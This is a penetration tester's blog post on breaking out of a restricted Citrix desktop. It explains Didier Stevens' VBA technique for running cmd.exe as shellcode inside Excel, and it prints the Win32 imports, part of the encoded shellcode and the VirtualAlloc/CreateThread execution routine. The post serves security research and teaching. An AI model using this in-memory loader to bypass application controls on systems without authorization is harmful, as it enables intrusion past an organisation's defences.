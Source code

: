 ```yaml
---
title: "VBA RunPE - Breaking Out of Highly Constrained Desktop Environments - Part 1/2"
layout: "post"
categories: "Windows"
tags: ["Research", "Bypass"]
---
```


In this post, I'd like to share a technique that I often use to break out of highly constrained desktop environments such as CItrix. The only prerequisite is to have access to _Microsoft Word_ or _Excel_ with the VBA editor enabled. 


## Background

During an engagement, I had to assess the security level of a thick client on a Citrix virtual desktop. Usually, this kind of audit is quite easy. You find a way to open an _Explorer_ window, you access the `C:\` drive, execute `cmd.exe` or, even better, `powershell.exe`, and it's almost game over. If you're lucky enough, you will even find a vulnerability to escalate your privileges.

This time, however, it was different. I was able to quickly open an ``Explorer`` window - using the `File > Open...` menu - but, from there, I got an `Access Denied` error message with every application I tried to execute. None of the techniques listed in the [UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList) worked. 

The `Access Denied` error messages I got were not caused by _AppLocker_ but by a third-party security product: _[AppSense](https://www.ivanti.com/company/history/appsense)_ by _Ivanti_, and it was properly configured. Nevertheless, I spotted a potential weakness...


## The weakness 

After a few hours spent on looking for what I could execute on the virtual desktop, I came to the conclusion that only the thick client itself and _Microsoft Excel_ were accessible with my current privileges. So, I opened _Excel_ and enabled the _Developer tab_ to access the VBA editor. This was my way out...

This will probably seem an obvious avenue to explore for the most experienced pentesters but, at that time, it was not for me. I only knew that I could use `Metasploit` to generate shellcodes as VBA payloads but I also knew that they would be detected by the antivirus software. 


## VBA to the rescue

From there, I've done a lot of research to see what I could do with the VBA editor, and I stumbled upon [Didier Stevens' blog](https://blog.didierstevens.com/). For those of you, like me at that time, who never heard of him before, he is a Belgian security researcher, who works a lot on malicious _Office_ documents and ways to analyze and detect them.

One of his posts caught my attention: [Create Your Own CMD.XLS](https://blog.didierstevens.com/2016/02/10/create-your-own-cmd-xls/). It was about running `cmd.exe` within _Excel_ without creating a new process. Wait...! What...?!

![](/assets/posts/2018-12-12-vba-runpe-part1/01_stevens-blog-cmd-xls.png)

As we can see on his screenshot, the title of the command prompt window is actually the path of the _Excel_ executable. How is that possible and how will it help us?


## RunPE in VBA

Didier Stevens actually implemented a variant of the _RunPE_ technique in VBA. RunPE is a trick that has been used by malware authors for many years. It consists in running code inside the memory of a legit process in order to hide its actual ativity. 

I won't digress too much and explain what _RunPE_ is in detail. Instead, I will try to explain how his code works. You can follow along by downloading it [here](http://didierstevens.com/files/software/cmd-dll_v0_0_4.zip).

### 1) Importing WIN32 functions 

One of the most powerful features of VBA is the possibility to import functions from the Windows API. That's exactly what the first lines of his code do. They import 3 functions from `kernel32.dll`:

- [VirtualAlloc](https://msdn.microsoft.com/en-us/library/windows/desktop/aa366887(v=vs.85).aspx)
- [RtlMoveMemory](https://docs.microsoft.com/en-us/windows/desktop/devnotes/rtlmovememory)
- [CreateThread](https://msdn.microsoft.com/en-us/library/windows/desktop/aa374779(v=vs.85).aspx)

```vb
Private Declare Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As Long, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
Private Declare Sub RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As Long, ByVal sSource As String, ByVal lLength As Long)
Private Declare Function CreateThread Lib "KERNEL32" (ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, ByVal lpParameter As Long, ByVal dwCreationFlags As Long, ByRef lpThreadId As Long) As Long
```

These functions are also the ones thet are typically used to execute a _shellcode_ on Windows. 

### 2) Defining structures and constants

A lot of structures and constants are defined in the Windows API. The problem is that VBA is _not aware_ of these definitions. So we have to declare them manually. 

Here, we are lucky, only two constants are required by `VirtualAlloc` and that's all.

- `MEM_COMMIT`
- `PAGE_EXECUTE_READWRITE`

```vb
Const MEM_COMMIT = &H1000
Const PAGE_EXECUTE_READWRITE = &H40
```

### 3) The shellcode 

The objective is to run `cmd.exe` within _Excel_. To do so, the `cmd.exe` PE file was extracted from [ReactOS](https://reactos.org/) and converted to an alphanumeric shellcode. However, this operation has a cost. It generates a huge string that needs to be embedded into the code. To add to the challenge, the VBA editor has several restrictions: the length of the lines of code and functions are limited. 

Therefore, the shellcode needs to be constructed from the concatenation of multiple blocks, which are themselves the concatenation of multiple strings. 

The blocks are constructed like this:

```vb
Private Function ShellCode1() As String
    Dim sShellCode As String

    sShellCode = ""
    sShellCode = sShellCode + "6FoIAADDVYnlUVZXi00Mi3UQi30U/zb/dQjoGQAAAIkHgccEAAAAgcYEAAAA4uZfXlmJ7F3CEABVieVT"
    sShellCode = sShellCode + "VldRZP81MAAAAFiLQAyLSAyLEYtBMGoCi30IV1DoWwAAAIXAdASJ0evni0EYUItYPAHYi1h4WFABw4tL"
    sShellCode = sShellCode + "HItTIItbJAHBAcIBw4syWFABxmoB/3UMVugjAAAAhcB0CIPCBIPDAuvjWDHSZosTweICAdEDAVlfXluJ"
    sShellCode = sShellCode + "7F3CCABVieVRU1IxyTHbMdKLRQiKEIDKYAHT0eMDRRCKCITJ4O4xwItNDDnLdAFAWltZiexdwgwAVYnl"
    sShellCode = sShellCode + "g30MAHUVi0UQUGoAi00I/1EoUItFCP9QDOsXi1UQUotFDFBqAItNCP9RKFCLRQj/UBBdwgwAVYnlg+wU"
    sShellCode = sShellCode + "i0UUi0gEiU3wi1UUiwKLTRSLEQ+3ShSNVAgYiVXsx0X8AAAAAOsM/0X8i03sg8EoiU3si1UUiwIPt0gG"
    '[snip]
    
    ShellCode1 = sShellCode
End Function
```

The blocks are then assembled like this:

```vb
Private Function ShellCode() As String
    Dim sShellCode As String

    sShellCode = chr(&hEB) + chr(&h3A) + chr(&h31) + chr(&hD2) + chr(&h80) + chr(&h3B) + chr(&h2B)
    '[snip]
    sShellCode = sShellCode + ShellCode1()
    sShellCode = sShellCode + ShellCode2()
    sShellCode = sShellCode + ShellCode3()
    sShellCode = sShellCode + ShellCode4()
    '[snip]
    sShellCode = sShellCode + ShellCode204()
    sShellCode = sShellCode + ShellCode205()
    sShellCode = sShellCode + ShellCode206()
    sShellCode = sShellCode + ShellCode207()
    sShellCode = sShellCode + ShellCode208()

    ShellCode = sShellCode
End Function
```

Calling the `ShellCode()` function will therefore _dynamically_ generate the entire shellcode in memory.

### 4) Executing the shellcode

Once the shellcode is constructed, it can be executed the same way it would be in a standard Windows console application written in C++. First, a buffer is allocated using `VirtualAlloc` with `EXECUTE` permission. Then, the content of the shellcode is copied to the allocated buffer. Finally, a new thread is created by specifying the address of the buffer as a pointer to the thread `StartFunction`.  

```vb
Public Sub ExecuteShellCode()
    Dim sShellCode As String
    Dim lpMemory As Long
    Dim lResult As Long

    sShellCode = ShellCode()
    lpMemory = VirtualAlloc(0&, Len(sShellCode), MEM_COMMIT, PAGE_EXECUTE_READWRITE)
    RtlMoveMemory lpMemory, sShellCode, Len(sShellCode)
    lResult = CreateThread(0&, 0&, lpMemory, 0&, 0&, 0&)
End Sub
```


## Conclusion

Et voilà! We have a VBA macro that can be used to run `cmd.exe` within _Word_ or _Excel_. This can bypass any restriction as long as you have access to one of these two _Office_ products and the VBA editor is enabled. 

However, it has several drawbacks:

### It only runs `cmd.exe`

Thanks to the command prompt, we can browse the entire file system easily, and... ...that's about all. Indeed, we won't be able to execute any other commands since it would require the creation of subprocesses. In addition, the shellcode was developed to run `cmd.exe` only and creating a new one to execute another PE file might represent a tedious task. 

### __It is only 32-bit compatible__

This time, I was very lucky because a 32-bit version of _Office_ was installed in the virtual environment. If a 64-bit version was installed instead, the code would have failed. 

### __The code is huge!__

The final size of the VBA code is more than 2.2MB, for a total of more than 22,000 lines of code. A detail that I didn't mention in my scenario is the fact that file transfers between the host and the virtual desktop were also forbidden. Fortunately, it was still possible to use the clipboard but since its size was limited, I had to copy the entire code piece by piece manually. I could have used something like a _[Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe)_ to work around this issue but I figured that the risk of failure was too high because of the huge amount of code to type.

But don't get me wrong, I'm very impressed by Didier Stevens' work and it clearly saved my day because I had nothing else to rely on. However, it was one of those times when you think you could have done better. So, I decided to make my own version and I implemented the full RunPE technique in VBA to address these limitations. 

The development process will be discussed in part 2... ;)

